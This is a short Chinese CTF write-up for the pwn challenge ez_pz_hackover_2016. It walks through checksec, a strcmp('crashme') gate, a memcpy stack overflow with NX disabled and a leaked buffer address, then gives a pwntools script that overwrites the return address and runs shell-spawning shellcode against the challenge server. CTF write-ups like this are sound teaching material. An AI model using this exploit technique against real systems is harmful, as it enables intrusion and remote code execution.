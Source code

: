 首先checksec

![image-20201112103913949](https://static.hack1s.fun/images/2021/02/06/image-20201112103913949.png)

反编译后主要执行的是一个chall的函数

![image-20201112104252777](https://static.hack1s.fun/images/2021/02/06/image-20201112104252777.png)

程序运行时首先直接给了缓冲区s的地址

![image-20201112104424768](https://static.hack1s.fun/images/2021/02/06/image-20201112104424768.png)

最下面有一个strcmp的比较，如果s内容为`crashme`就会执行vuln函数

vuln函数内部是一个memcpy，将s向栈上的一个地址写入0x400的长度

![image-20201112105129351](https://static.hack1s.fun/images/2021/02/06/image-20201112105129351.png)

因为程序没有开启nx保护，而且还给出了我们buffer的其实地址

计算出偏移后直接跳到栈上执行shellcode就可以

但是这里的问题就是要计算出s和vuln函数返回值之间的偏移

这个需要调试来看

在python脚本里面加上`gdb.attach(io)`

调试发现距离28

写出脚本

```python
from pwn import *

io = remote('node3.buuoj.cn',26469)
#io = process('./ez_pz_hackover_2016')
elf = ELF('./ez_pz_hackover_2016')

io.recvuntil('crash: ')

buffer_addr = int(io.recvline(),16)

io.recvuntil('>')

payload = 'crashme\x00'
payload = payload.ljust(26,'\x00')
payload +=  p32(buffer_addr-28) + asm(shellcraft.sh())

print(payload)

io.sendline(payload)
io.interactive()
```

